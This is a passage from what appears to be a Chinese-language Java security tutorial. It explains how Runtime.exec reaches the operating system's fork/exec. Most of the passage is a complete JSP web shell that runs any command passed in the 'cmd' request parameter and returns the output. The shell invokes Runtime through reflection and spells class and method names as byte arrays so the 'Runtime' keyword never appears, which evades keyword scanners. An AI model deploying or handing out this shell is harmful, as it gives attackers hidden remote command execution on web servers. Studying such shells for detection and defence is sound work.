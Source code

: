 通过观察整个调用链我们可以清楚的看到`exec`方法并不是命令执行的最终点，执行逻辑大致是：

1. `Runtime.exec(xxx)`
2. `java.lang.ProcessBuilder.start()`
3. `new java.lang.UNIXProcess(xxx)`
4. `UNIXProcess`构造方法中调用了`forkAndExec(xxx)` native方法。
5. `forkAndExec`调用操作系统级别`fork`->`exec`(*nix)/`CreateProcess`(Windows)执行命令并返回`fork`/`CreateProcess`的`PID`。

有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!

#### jsp反射runtime类命令执行：

如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替。

```java
<%@ page contentType="text/html;charset=UTF-8" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>

<%
    //定义request接收的参数
    String str = request.getParameter("cmd");//getParemeter获取参数

    //定义"java.lang.Runtime"字节变量，隐藏Runtime关键字，获取runtime类
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    //String re=new String(java.lang.runtime)

    //反射获取Runtime类对象
    Class<?> clazz = Class.forName(rt);

    //反射获取getRuntime方法
    Method method_getRuntime = clazz.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    //Method method_getRuntime = clazz.getMethod("getRuntime",String.class)

    //反射获取exec方法
    Method method_exec = clazz.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);

    //反射调用Runtime.getRuntime.exec()方法
    //Object object_getRuntime = method_getRuntime.invoke(null);
    //Object object_exec = method_exec.invoke(object_getRuntime, str);
    Object object = method_exec.invoke(method_getRuntime.invoke(null), str);

    //反射获取Process类的getInputStream方法
    Method method_getInputStream = object.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    method_getInputStream.setAccessible(true);

    //获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object, new Object[]{})).useDelimiter("\\A");
    String result = scanner.hasNext() ? scanner.next() : "";

    out.write(result);
%>
```
